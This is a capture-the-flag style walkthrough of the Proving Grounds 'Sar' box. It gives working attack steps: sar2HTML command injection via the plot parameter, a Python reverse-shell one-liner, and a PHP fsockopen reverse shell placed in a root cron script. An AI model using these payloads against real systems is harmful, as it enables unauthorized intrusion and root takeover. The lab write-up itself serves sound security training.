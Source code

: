 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the box **"Sar"** exploiting sar2HTML via Remote Code Execution (RCE)
- **Box Host:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 
##### *Note 1:* The IP addresses, URLs, and flags used in this demonstration were specific to the environment at the time of the exploit and will likely be different when another attempt at this box is made.

##### *Note 2:* There is almost always more than one way to expoit a box (TIMTOWTDI). The demonstration and tools shown here are probablyy not the only method you can use.
- - -

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
Research to find **sar2HTML** exploit
- Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
- Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
- Example:

```
http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
```

- - - 

### Step 4: Setup a Reverse Shell
Run a basic Python command to see if it is installed

```
python3 --help
```

- The output provided shows this is a success and python3 is installed

Setup a netcat listener in your terminal:
```
nc -lvp 1234
```

- Run a python3 script to connect to a reverse shell:

```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

- Successfully connected:

- Setup a stable shell (optional):

```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

- **user flag can be found here** (/home/love/Desktop/user.txt)

- - -

### step 5 (final): Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh

```
php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
```
  * IP address = attacker machine (mine)
  * Setup listener **nc -lvp 4444**
  * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```
- echo requires a \ in front of a $ and " (probably more)





